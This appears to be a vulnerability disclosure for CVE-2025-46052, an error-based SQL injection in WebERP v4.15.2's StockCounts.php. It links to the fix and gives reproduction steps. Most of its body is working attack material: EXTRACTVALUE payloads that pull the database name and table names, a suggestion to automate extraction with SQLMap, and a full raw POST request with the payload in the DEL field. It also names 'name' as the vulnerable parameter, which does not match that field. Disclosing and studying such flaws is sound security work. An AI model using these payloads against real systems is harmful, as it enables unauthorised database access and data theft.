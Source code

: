 # CVE-2025-46052

---

## SQL Injection


An error-based SQL Injection (SQLi) vulnerability in WebERP v4.15.2 allows attackers to execute arbitrary SQL commands and extract sensitive data by injecting a crafted payload into the DEL form field within a POST request to /StockCounts.php

* Vulnerable Endpoint: /StockCounts.php
* Vulnerable Param: name
* Payload: 
```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))--
```

---

## Fix

Vulnerable StockCounts.php:
https://github.com/timschofield/webERP/blob/5460e51b04a7efc2340303bcada4803523a34bfe/StockCounts.php#L357

Remediated StockCounts.php:
https://github.com/timschofield/webERP/pull/401/commits/f325591313977db991a3b361b0dc801cfc180274


---

### Steps to reproduce:

1.) Authenticate as Accountant user.

2.) Proceed to [http://localhost:8083/StockCounts.php](http://localhost:8083/StockCounts.php)

3.) View entered counts:

![Pasted image 20250513102810](https://github.com/user-attachments/assets/d888341b-ccb3-4213-9d10-45b8a82ca91a)

![Pasted image 20250513102816](https://github.com/user-attachments/assets/9eb13250-5ae8-4ef3-a670-4ea82e626770)

4.) Select Delete and intercept the request:

![Pasted image 20250513102836](https://github.com/user-attachments/assets/86576403-7f3a-44ac-9732-686eaf6030cd)

5.) Append a ‘ and observe the database error:

![Pasted image 20250513102849](https://github.com/user-attachments/assets/382a63af-ce77-4c20-b100-2170b43b21b9)

6.) Use the following payload to get the database name via error based SQLi:

```
' AND EXTRACTVALUE(1,CONCAT(1,1,(MID((IFNULL(CAST(a() AS NCHAR),1)),1,1)),1)) AND '1'='1
```

![Pasted image 20250513102911](https://github.com/user-attachments/assets/9c76d1c3-6796-4076-bd4d-f5d69274caae)

7.) Use the following payload to get the table names within the weberp database by using the following payload:

```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))--
```

![Pasted image 20250513102935](https://github.com/user-attachments/assets/3007b077-c7e3-4d9d-b5fa-4e55f4f08e6e)

```
8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 1)))--
```

![Pasted image 20250513102952](https://github.com/user-attachments/assets/6a5e1cc4-5d14-4264-b660-3ee8dfb23ab6)

8.) Automate this process with SQLMap:

![Pasted image 20250513103007](https://github.com/user-attachments/assets/0139f549-0da8-4019-9ed7-0daecf632583)


---

### Vulnerable Request:

```
POST /StockCounts.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Length: 689
Origin: http://localhost:8083
Connection: close
Referer: http://localhost:8083/StockCounts.php?&Action=View
Cookie: <cookie>
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="FormID"

cf945861690e4c3e30286ce15ec036c814414b48
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="Action"

View
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="DEL[8' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='weberp' LIMIT 1 OFFSET 0)))-- ]"

on
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205
Content-Disposition: form-data; name="SubmitChanges"

Save Changes
------geckoformboundaryd81c9974b5c6e982d498cb288f81b205--
```






